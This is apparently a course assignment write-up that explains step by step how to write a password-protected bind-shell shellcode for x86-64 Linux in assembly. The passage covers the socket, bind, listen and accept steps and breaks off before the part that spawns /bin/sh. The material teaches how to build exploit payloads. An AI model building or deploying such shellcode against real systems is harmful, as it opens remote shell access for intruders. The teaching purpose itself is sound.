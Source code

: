 ## Assignment #1
## Bind_Shell_TCP

### Introduction
---

Requirements for this assignment are to create a Shell_Bind_TCP shellcode that: 

  1. Listens on a specific port 
  2. Requires a password 
  3. If the password is correct, then Exec Shell is executed 
  4. Also, the NULL bytes (0x00) must be removed from the shellcode 

To build the shellcode use of the linux sockets is needed. Reading documentation, the following steps are needed: 

  1. Create a socket 
  2. Bind the socket to a port 
  3. Start listenning for connections 
  4. Accept incoming connections 
  5. Ask, read, and validate the password 
  6. Duplicate `SDTIN`, `STDOUT` and `STDERR` to the socket descriptor 
  7. Execute /bin/sh for the incoming and validated conection 

In case the password is not correct, the shellcode will exit with a Segmentation Fault. The shellcode won’t care on how the program terminates. This makes sense as shellcode will be smaller in size and really does not matter how it exits. 

For Linux Sockets Programming, the following System calls are required on this assignment: 

```c
int socket(int domain, int type, int protocol); 
int bind(int sockfd, const struct sockaddr *addr, 
         socklen_t addrlen); 
int listen(int sockfd, int backlog); 
int accept(int sockfd, struct sockaddr *addr, 
           socklen_t *addrlen); 
int close(int sockfd); 
```
To duplicate the standard input, output and error, `dup2()` call will be used: 

```c
int dup2(int oldfd, int newfd); 
```

And to execute `/bin/sh`, will use the `execve()` call: 

```c
int execve(const char *filename, 
           char *const argv[], 
           char *const envp[]); 
```
### ASM Implementation
----

Will explain how we implement each step mentioned before into ASM, with the idea to make the code easy to understand. No enphasys has been put into removing NULLs and make the shellcode small (this is done later).

#### Create a Socket

```asm
; sock = socket(AF_INET, SOCK_STREAM, 0) 
mov rax, 41                 ; syscall number 
mov rdi, AF_INET            ; IPv4 
mov rsi, SOCK_STREAM        ; TCP connection 
mov rdx, 0                  ; IP Protocol 
syscall 
; Save the socket_id value in RDI for future use 
mov rdi, rax                ; value returned in RAX by syscall  
```
This is the first step required for sockets, open the socket. 
To execute the sys_socket system call the arguments will have to be placed in the corresponding registers: 

  - RAX <- 41 : Syscall number. 
  - RDI <- 2 : Domain parameter. AF_INET is for IPv4. 
  - RSI <-  1 : Type parameter. SOCK_STREAM means connection oriented TCP. 
  - RDX <- 0 : Protocol. IPPROTO_IP means it’s an IP protocol 

The syscall will return a file descriptor in RAX that is saved into RDI. This saves the socket_id for later use in the code

#### Bind the Created Socket to a Port

```asm
; Prepare (struct sockaddr *)&server 
;       RSP will point to the struct address 
xor rax, rax 
push rax                    ; bzero(&server.sin_zero, 8) 

mov dword [rsp - 4], INADDR_ANY 
mov word [rsp - 6], PORT 
mov word [rsp - 8], AF_INET 
sub rsp, 8                  ; Update RSP with right value 

; bind(sock, (struct sockaddr *)&server, sockaddr_len) 
;       RDI already has the sock_id 
mov rax, 49                 ; syscall number 
mov rsi, rsp                ; @ to (struct sockaddr * &server) 
mov rdx, 16                 ; length of the sockaddr struct 
syscall  
```
This part irequires two steps:

  - Create the `struct sockaddr` structure. Stack is used to store the values of the struct:
    - Values are placed on the stack
    - Stack Pointer (RSP) is updated with the new address
  - Call the `bind` syscall. Values for parameters are placed into the registers:
    - RAX: Syscall number (49)
    - RDI: Socket descriptor. Already has the value from previous point
    - RSI: Address of the struct. This value is in RSP
    - RDX: The lengh of the sockaddr struct. It's 16 bytes

#### Listen for Incoming Connections

```asm
; listen(sock, MAX_CLIENTS 
;       RDI already has the sock_id 
mov rax, 50          ; syscall number 
mov rsi, 2			     
syscall 
```
Values in the registers for the `listen` call parameters are:
  - RAX <- 50 : Syscall Number 
  - RDI : Already stores the socket descriptor 
  - RSI <- 2 : Is the backlog parameter 

#### Accept Incoming Connections

```asm
; client_sock = accept(sock_id, 
;                     (struct sockaddr *)&client, 
;                      &sockaddr_len) 
;       RDI already has the sock_id 

mov rax, 43                 ; syscall number 

; Reserve space on the stack for the struct (16 bytes) 
sub rsp, 16                 ; Reserved 16 bytes 
mov rsi, rsp                ; RSI <- @ sockaddr struct 
 
; Store in the Stack the sockaddr_len value 
mov byte [rsp - 1], 16      ; Stored the len (16 bytes) 

sub rsp, 1                  ; Update value for RSP 
mov rdx, rsp                ; RDX <- @sockaddr_len 
syscall 

; Store the client socket descripion returned by accept 
mov rbx, rax                 ; r9 <- client_sock 
```
`accept()`requires the following parameters:

- Socket descriptor, that's already stored in RDI
- Address of the struct by reference. Stack is used to store this struct reserving 16 bytes in stack. The data of this struct will be modified by the syscall and will access throught RSP register
- Address where the length of the struct is stored. This value is stored in the stack. RSP has this value

Registers get this following values for the parametrers:
- RAX <- 43 : Syscall Number 
- RDI : Already stores the socket descriptor 
- RSI <- RSP : Address of stack where struct is 
- RDX <- RSP+1 : Address of stack where the length of the struct is. Just one position more tan the struct itself 

This call returns a socket descriptor for the client, that is stored in R9 for future use.

#### Close the Parent socket Descriptor
